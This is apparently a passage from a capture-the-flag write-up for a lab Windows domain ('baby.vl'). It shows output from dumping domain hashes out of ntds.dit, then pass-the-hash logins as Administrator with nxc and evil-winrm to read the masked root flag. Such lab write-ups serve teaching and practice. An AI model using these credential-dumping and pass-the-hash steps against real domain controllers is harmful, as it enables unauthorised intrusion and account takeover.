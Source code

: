 ```bash {hl_lines=[15]}
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                 
[*] Searching for pekList, be patient                                                                                         
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit                                                                               
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
[...]
```


Now we can log in as Administrator:
```bash
nxc smb baby.vl -u Administrator -H ********************************
SMB         10.10.92.227    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.92.227    445    BABYDC           [+] baby.vl\Administrator:******************************** (Pwn3d!)
```

```bash
evil-winrm -i baby.vl -u Administrator -H ********************************
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
VL{********************************}
```


